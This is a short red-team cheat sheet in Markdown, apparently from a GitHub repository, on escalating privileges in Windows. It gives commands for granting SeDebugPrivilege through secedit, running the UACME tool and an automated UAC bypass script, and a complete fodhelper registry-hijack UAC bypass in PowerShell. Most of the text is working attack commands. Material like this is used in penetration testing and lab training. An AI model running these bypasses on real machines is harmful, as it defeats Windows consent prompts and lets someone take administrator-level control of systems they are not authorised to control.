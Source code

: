 ### SeDebugPrivileges
- http://woshub.com/obtain-sedebugprivilege-debug-program-policy-enabled/

#### Export the current user rights set by the group policies to a text file:
```
secedit /export /cfg secpolicy.inf /areas USER_RIGHTS
```

#### Edit the secpolicy.ing
- Change the SeDebugPrivileges to ```S-1-5-32-544``` the Local administrator group.
```
notepad.exe secpolicy.inf
```
- Or converts sids: http://woshub.com/convert-sid-to-username-and-vice-versa/

#### Save the new user rights set
```
secedit /configure /db secedit.sdb /cfg secpolicy.inf /overwrite /areas USER_RIGHTS
```

#### Start cmd again
- Check privileges with ```whoami``` if not having SeDebugPrivilege do ```PsExec.exe -i cmd.exe```

## UAC bypass
- A UAC bypass is a technique by which an application can go from Medium to High Integrity without prompting for consent.
- Tool: https://github.com/hfiref0x/UACME
- Guide on how to build: https://ad-lab.gitbook.io/building-a-windows-ad-lab/vulnerabilities-and-misconfigurations-and-attacks/misc/page-3-4

 ```
 .\Akagi64.exe <METHOD> <EXECUTABLE>
 .\Akagi64.exe 34 cmd.exe
 ```
 
#### Automatec UAC bypass PowerShell script 
- https://github.com/x0xr00t/Automated-MUlti-UAC-Bypass

```
.\Win-Multi-UAC-Bypass.ps1
```
 
### Manual UAC bypass
- https://atomicredteam.io/defense-evasion/T1548.002/
 
#### Fodhelper
- Can also use ```C:\Windows\System32\cmd.exe /c powershell.exe```
```
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "<PATH TO EXE>" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
 
# Cleanup
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```
 